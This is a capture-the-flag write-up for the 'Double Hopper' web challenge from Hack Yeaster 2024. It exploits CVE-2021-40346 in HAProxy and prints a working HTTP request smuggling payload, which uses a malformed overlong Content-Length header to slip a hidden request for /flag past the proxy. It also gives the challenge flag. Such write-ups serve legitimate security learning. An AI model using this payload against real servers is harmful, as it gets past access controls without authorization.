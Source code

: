 # Challenge "Double Hopper"
<img src="banner.jpg" width="400px" alt="Banner Image" /><br/>

**Difficulty:** <span style="background-color: #e68f8f; padding: 5px; color: black;">☢️ hard</span> | **Category:** <span style="background-color: #ced4da; padding: 5px; color: black;">🌐 web</span>

Double hopper will not show you a double whopper.

[Double Hopper web site](http://ch.hackyeaster.com:2406/)

Note: The service is restarted every hour at x:00.

[config.txt](config.txt)

# Solution
The [config.txt](config.txt) file suggests a HAProxy web server configuration. Searching for path configuration vulnerabilities for that kind of server suggests the following possible exploit: https://jfrog.com/blog/critical-vulnerability-in-haproxy-cve-2021-40346-integer-overflow-enables-http-smuggling/

By using this approach, we see the flag path: https://github.com/alexOarga/CVE-2021-40346/blob/main/payload

[payload](payload)

    POST /index HTTP/1.1
    Host: ch.hackyeaster.com:2406
    Content-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa: 
    Content-Length: 23

    GET /flag HTTP/1.1
    h: GET /index HTTP/1.1
    Host: ch.hackyeaster.com:2406


Output in HTML:

    <img src="/static/flag-55a8408e060a25096eb95be8b86f3a2c66f91193.png"/>

With this script and some adjustments, we can then download the flag.png https://github.com/alikarimi999/CVE-2021-40346/blob/main/exploit.py:

[solver.py](solver.py)

![flag.png](flag.png)

## The flag
    he2024{Smu66l1m6_4ll_th3_t1m3!}
